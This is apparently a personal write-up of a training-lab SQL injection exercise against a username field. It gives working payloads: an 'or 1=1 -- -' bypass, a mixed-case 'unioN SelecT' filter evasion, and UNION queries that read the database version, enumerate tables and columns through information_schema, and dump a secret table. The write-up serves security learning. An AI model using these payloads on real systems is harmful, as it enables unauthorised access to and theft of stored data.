









---
---

# IML - SQLi Basics - Demonstrate your skills

- username = vulnerable parameter



- Cannot use union select because of filters (need to use filter evasion)




- Not breaking with ' or "

- Try using 'or 1=1 -- -




That worked

- I tried putting too MANY union select statements in, to start with, but the website doesn't break.
(As we found out with trying the ' and ")

- But we know that the search field only displays ONE column output.
So the correct SQLi statement is using:

```bash
'unioN SelecT 1 -- -

```



- Now just replace the **1** with values ie.

```bash
'unioN SelecT database() -- -

```



```bash
'unioN SelecT version() -- -

```



```bash
'unioN SelecT group_concat(table_name) from information_schema.tables where table_schema="user_db" -- -

```



```bash
'unioN SelecT group_concat(column_name) from information_schema.columns where table_name="secret_table" -- -

```



```bash
'unioN SelecT group_concat(name,0x2b,value) from secret_table -- -

```
**0x2b is a delimiter(+)**



